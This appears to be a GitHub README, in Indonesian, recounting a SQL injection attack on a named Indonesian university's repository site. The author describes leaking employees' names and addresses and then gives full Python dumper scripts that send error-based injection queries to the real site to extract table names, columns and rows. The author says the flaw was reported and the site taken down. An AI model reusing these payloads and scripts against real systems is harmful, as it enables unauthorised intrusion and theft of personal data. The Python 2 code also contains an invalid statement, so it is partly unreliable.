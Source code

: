 # How I hack UNDIKNAS

![Web utama repository undiknas](img/web.png)
Dapat dilihat bahwa web repository ini meminta sebuah inputan berupa kata kunci.
Langsung saja saya coba untuk input " **'** " untuk membuat query sql error.
Tak terduga bahwa query error benar-benar muncul, berikut merupakan detail tampilannya.<br>
![Query error](img/sqli_error.png)
Dari query tersebut saya berharap bisa melakukan select terhadap nama database dengan menggunakan **union select injection**.
Namun saat saya melakukan union select pada query tersebut sepertinya jumlah kolom tabel yang di select sangat banyak sehingga
saya harus melakukan brute jumlah kolom yang di select agar sqli dengan **union select** dapat menampilkan data. Namun sayang sekali meskipun saya sudah melakukan brute force sebanyak 60++ kolom, saya masih belum mendapatkan jumlah kolom yang pas :D.<br>
Melihat bahwa tidak memungkinkan melakukan union select, saya pun mencari cari cara lain. Sedikit recon dengan blind sql injection, saya memutuskan untuk melakukan brute force terhadap nama database dengan melakukan compare pada setiap kemungkinan char dengan fungsi **substring** yang terdapat di mysql.<br>
query yang saya gunakan adalah  `19' or BINARY substring(database(), 1, 1) = kemungkinan_char`.<br>
Setelah beberapa lama script brute force saya jalankan, saya akhirnya menemukan nama database nya. Namun perjalanan masih jauh, saya masih memerlukan nama tabel dari databasenya untuk melakukan leak data. Namun untuk melakukan brute force ini membutuhkan waktu yang sangat lama jika tabel yang ada di dalam database tersebut sangat banyak.<br>
Lagi-lagi saya harus mencari cara lain untuk melakukan leak data. Sedikit recon lagi, saya akhirnya menemukan cara untuk leak data dengan menggunakan **Error based SQL injection**. Saatnya saya coba untuk leak data lagi dengan query berikut <br>
`19' and extractvalue(0x0a,concat(0x0a,(select database() limit 3,1)))-- `.
Berikut merupakan hasil yang diberikan. <br>
![nama database](img/database_name.png) <br>
Nah yang saya sensor secara pixelated itu adalah nama database-nya. Karena nama database sudah ditemukan dengan **error based sql injection**, artinya saya bisa melakukan leak data terhadap seluruh tabel yang ada di dalam database ^0^. Untuk melakukan leak data terhadap seluruh tabel di database undiknas, saya menggunakan script untuk melakukan leak tabel dengan total sebanyak 432 tabel. Berikut merupakan sebagian tabel dari total 432 tabel <br>
![nama tabel](img/table_name.png)<br>
Karena nama tabel sudah ditemukan, artinya saya bisa melakukan leak kolom dalam tabel juga. Saya menemukan beberapa tabel yang menarik untuk saya leak namun yang akan saya tunjukkan di sini hanyalah tabel pegawai. Berikut merupakan isinya.
![kolom](img/column.png)<br>
Sangat menarik karena saya bisa melihat isi dari data-data pribadi para pegawai. Karena kolom sudah saya temukan, sekarang saya bisa melihat isi dari data-data pegawai tersebut. Namun karena error based sql injection tidak dapat melakukan select sebanyak lebih dari 1 kolom dan panjang string yang dioutput oleh XPATH pun tidak lebih dari 32 byte, saya harus melakukan select 1 per 1 dengan menggunakan `LIMIT`. Berikut merupakan hasil leak nama pegawai.
![nama pegawai](img/nama.png)<br>
Dan berikut merupakan hasil leak dari alamat para pegawai :D.
![alamat](img/address.png)<br>
Dari query sql error yang dioutput oleh web, saya juga bisa melakukan **insert, update, delete** dan bahkan **drop** pada database undiknas. Bug ini sudah saya laporkan ke pihak undiknas dan web repository sudah down.<br>

# Script sudah tidak bisa digunakan karena web target sudah down

Berikut merupakan script untuk melakukan dump. <br>
sploithelper.py<br>
```
import requests

def attack(conn, query):
    payload = query
    data = {
        "pilih_kategory": "buku",
        "cari_data": payload
    }
    exploit = conn.post(url="http://repository.undiknas.ac.id/repository/search", data=data)
    return exploit
```

dumper.py
```
import requests
from sploithelper import attack
from bs4 import BeautifulSoup

class Dump():
    def __init__(self, url):
            self.url = url

    def dumpTable(self, save_file="outputtable.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(433):
                    query = "19' and extractvalue(0x0a,concat(0x0a,(select table_name from information_schema.tables where table_schema='undiknas_dc'LIMIT {},1)))-- ".format(i)
                    
                    table_leak = attack(conn, query)
                    soup = BeautifulSoup(table_leak.text, 'html.parser')
                    table_name = soup.findAll('p')[1]

                    table_name = str(table_name)[25:-5]
                    print "Dumped table name : " + table_name
                    file.write(table_name + '\r\n')
                
                file.close()
            except KeyboardInterrupt:
                print 'Connection cut'

    def dumpData(self, columns=10, table='mahasiswa', column_name='nama', order='', save_file="outputdata.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(columns):
                    if order == '':
                        query = "19' and extractvalue(0x0a,concat(0x0a," \
                                + "(select {} from {} limit {},1)))-- ".format(column_name, table, i)
                    else:
                        query = "19' and extractvalue(0x0a,concat(0x0a," \
                                + "(select {} from {} ORDER BY {} ASC limit {},1)))-- ".format(column_name, table, order, i)

                    # print query
                    data_leak = attack(conn, query)
                    # print data_leak.text
                    soup = BeautifulSoup(data_leak.text, 'html.parser')
                    leaked_data = str(soup.findAll('p')[1])[25:-5]
                    print leaked_data
                    file.write(leaked_data + '\r\n')
                
                file.close()

            except KeyboardInterrupt:
                print 'Connection cut'

    def dumpColumns(self, table='mahasiswa', columns=10, save_file="outputcol.txt"):
        with requests.Session() as conn:
            file = open(save_file, "w+")
            try:
                for i in range(columns):
                    query = "19'and extractvalue(0x0a,concat(0x0a,(select column_name from information_schema.columns " \
                            + "where table_schema=database() and table_name='{}' limit {},1)))-- ".format(table, i)

                    column_leak = attack(conn, query)
                    soup = BeautifulSoup(column_leak.text, 'html.parser')
                    column_name = str(soup.findAll('p')[1])[25:-5]                
                    print column_name
                    file.write(column_name + "\r\n")
                
                file.close()
            
            except KeyboardInterrupt:
                print 'Connection cut'
```

main.py
```
from dumper import Dump
import argparse

def parse_argument():
    parser = argparse.ArgumentParser()
    parser.add_argument("-all", \
                        action='store_true', \
                        help="Dump all the tables")
    parser.add_argument("-tbl", \
                        help="TABLE_NAME to dump the columns, default table is 'mahasiswa'")
    parser.add_argument("-col", \
                        help="Number of columns you want to dump")
    parser.add_argument("--data", \
                        help="Dump data from specific column of a table")
    parser.add_argument("--order", \
                        help="Order by specific column")
    parser.add_argument("--outfile", \
                        help="OUTPUT file for the dumped things")

    return parser.parse_args()

def main():
    args = parse_argument()
    url = "http://repository.undiknas.ac.id/repository/search"
    data = Dump(url)
    if args.all:
        data.dumpTable()
    if args.tbl and args.col and args.data:
        if args.order:
            if args.outfile:
                return data.dumpData(table=args.tbl,columns=int(args.col), save_file=args.outfile, column_name=args.data, order=args.order)
            else:
                return data.dumpData(table=args.tbl, columns=int(args.col), column_name=args.data, order=args.order)
        else:
            if args.outfile:
                return data.dumpData(table=args.tbl, columns=int(args.col), save_file=args.outfile, column_name=args.data)
            else:
                return data.dumpData(table=args.tbl, columns=int(args.col), column_name=args.data)
    elif args.tbl and args.col:
        if args.outfile:
            return data.dumpColumns(table=args.tbl, save_file=args.outfile, columns=args.col)
        else:
            return data.dumpColumns(table=args.tbl, columns=int(args.col))
    elif args.tbl:
        if args.outfile:
            return data.dumpColumns(table=args.tbl,save_file=args.outfile)
        else:
            print "Output in the default file: outputcol.txt"
            return data.dumpColumns(table=args.tbl)
    else:
        return print "Please fill the data"

if __name__ == "__main__":
    main()
```